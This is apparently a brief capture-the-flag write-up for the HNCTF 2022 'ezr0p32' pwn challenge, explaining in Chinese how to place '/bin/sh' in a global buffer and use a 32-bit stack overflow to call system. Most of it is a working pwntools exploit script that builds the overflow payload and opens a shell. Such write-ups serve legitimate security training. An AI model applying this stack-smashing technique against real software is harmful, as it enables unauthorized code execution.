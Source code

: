 [[HNCTF 2022 Week1]ezr0p32 | NSSCTF](https://www.nssctf.cn/problem/2930)
![[Pasted image 20240901114322.png]]
![[Pasted image 20240901114334.png]]
![[Pasted image 20240901114400.png]]
有system函数，无binsh
可将binsh存入buf，再栈溢出调用system
exp:
```python
from pwn import *

# p = remote("node5.anna.nssctf.cn", 26338)
p = process('./ezr0p')
elf = ELF('./ezr0p')

system_addr = elf.symbols['system']
buf = 0x804A080

p.sendlineafter(b"name", b'/bin/sh')

p.recvuntil(b"time~")

offset = 0x1C + 4

payload = b'a' * offset + p32(system_addr) + p32(0) + p32(buf)
p.sendline(payload)

p.interactive()
```
